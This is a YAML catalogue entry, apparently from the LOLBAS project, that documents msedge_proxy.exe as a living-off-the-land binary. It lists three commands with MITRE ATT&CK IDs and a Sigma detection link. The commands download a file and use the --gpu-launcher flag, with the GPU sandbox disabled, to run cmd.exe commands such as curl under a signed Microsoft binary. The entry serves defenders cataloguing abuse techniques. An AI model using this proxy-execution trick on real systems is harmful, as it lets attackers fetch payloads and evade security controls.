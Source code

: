 ```yaml
---
Name: msedge_proxy.exe
Full_Path:
  - Path: C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe
Description: Microsoft Edge Browser
Author: 'Mert Daş'
Created: 2023-08-18
Commands:
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe http://example.com/test.zip"
    Description: msedge_proxy will download malicious file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c curl ipinfo.io/json --output %USERPROFILE%\\\\Desktop\\\\test.json &&\""
    Description: Edge will silently download the file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c ping google.com &&\""
    Description: msedge_proxy.exe will execute file in the background
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_susp_electron_execution_proxy.yml
Acknowledgement:
  - Person: Mert Daş
    Handle: '@merterpreter'
---
```


